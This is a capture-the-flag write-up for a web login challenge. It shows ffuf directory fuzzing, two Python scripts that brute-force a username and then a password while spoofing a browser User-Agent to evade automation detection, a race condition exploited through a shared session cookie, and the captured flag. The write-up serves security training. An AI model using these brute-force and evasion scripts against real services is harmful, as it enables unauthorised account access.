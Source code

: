 <img src="https://github.com/raul-dunca/rocsc_2025_quals/blob/main/.assets/formula1_description.png">

First, I did some reconnaissance:

```bash
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://<ip>:<port>/FUZZ.php
```

Which showed `flag.php with` an HTTP 302 status code, so nothing of interest for now.
Given the message after a login attempt of “Invalid username” I created a script to brute force the username:

```python
import requests

url = "http://<ip>:<port>/login_process.php"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36"}

with open("/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt",encoding="utf-8") as f:
    users=[line.strip().lower() for line in f]

for user in users:
    data = {"username": user,"password": "1" }
    response = requests.post(url, headers=headers, data=data, timeout=5)
    if "Invalid username." not in response.text:
        print(f"[+] Response from {user}: {response.status_code}\n{response.text}\n")
        break
    else:
        print(f"[-] Ignoring response from {user} (Internal Server Error)")
```

Important note: the `User-Agent` header was needed because otherwise I got: "Error! Automated activity detected!"
The username I found was `max`. Now I tried to brute force the password with a similar script:

```python
import requests

url = "http://35.198.97.185:30981/login_process.php"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36",
    "Cookie": "PHPSESSID=2df687658e7ce6d6aaab47b56b2c55e0"
}

with open("passwords.txt",encoding='utf-8', errors='ignore') as f:
     passwords=[line.strip() for line in f]
user="max"

for password in passwords:
    data = {"username": user,"password": password }
    response = requests.post(url, headers=headers, data=data, timeout=5)
    if "Invalid password." not in response.text:
        print(f"[+] Response from {password}: {response.status_code}\n{response.text}\n")
        break
    else:
         print(f"[-] Ignoring response from {password} (Internal Server Error)")
```

While the script was running, I randomly tried to send another request in my browser to `login_process.php` with a random username and password, I got as a response the expected: “Invalid username. Try again”, but when I hit back on my browser, I was at `flag.php`. At first, I thought this was a bug and not the intended solution, but I now believe it was an intentional race condition behind.
Important note: In the password script the `Cookie` header should match the browser cookie, so the race condition is triggered.

`CTF{0c7a73dbf9b5e7c97ddce7c90c6876de8194346d5f4bddacfb821dc254f2f414}`
